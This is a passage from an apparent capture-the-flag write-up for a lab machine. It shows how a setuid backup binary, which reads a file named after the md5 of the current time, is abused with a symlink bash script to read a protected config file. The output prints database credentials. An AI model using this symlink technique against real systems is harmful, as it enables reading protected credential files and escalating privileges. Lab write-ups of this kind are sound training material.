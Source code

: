 With this information we now know how to read the `config.php.bak` file. As the program changes the user and group id to 1002 before reading the file, we can use the program to read the config file. For this to work, we have to create a file that symlinks to the config file with the md5sum of the current time as the name. For this we can use a simple bash script.

#### Exploiting the backup binary to read config.php.bak

Let us verify our assumptions, by executing the program and calculating the md5sum ourselves.

```bash
chiv@forwardslash:~$ /usr/bin/backup 
----------------------------------------------------------------------
        Pain\'s Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet, 
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 12:39:48
ERROR: 6257a5e3e1a13b41d9a5e7360976edee Does Not Exist or Is Not Accessible By Me, Exiting...
chiv@forwardslash:~$ echo -n "12:39:48" | md5sum
6257a5e3e1a13b41d9a5e7360976edee  -
```

We have successfully verified our assumptions and can now start writing our exploit script.

```bash
#!/bin/bash
# Tmp dir
DIR="/dev/shm/.chronos"
# Target backup
BAK="/var/backups/config.php.bak"
# Create dir if not already existing
[ ! -d "$DIR" ] && mkdir "$DIR"
# Got to Tmp dir
cd "$DIR"
# Calculate md5sum
MD5="$(echo -n $(date +"%H:%M:%S") | md5sum | cut -d " " -f 1)"
# Create symlink with md5name
ln -s "$BAK" "$MD5"
# Run backup binary
/usr/bin/backup
# Go back to previous dir
(cd -) 1> /dev/null
# Delete tmp dir
rm -rf "$DIR"
```

This bash script simply creates the symlink and then runs the binary. We can now execute the exploit script and read the contents of the `config.php.bak` file.

```bash
chiv@forwardslash:~$ bash exploit.sh 
----------------------------------------------------------------------
        Pain\'s Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet, 
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 12:58:57
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
```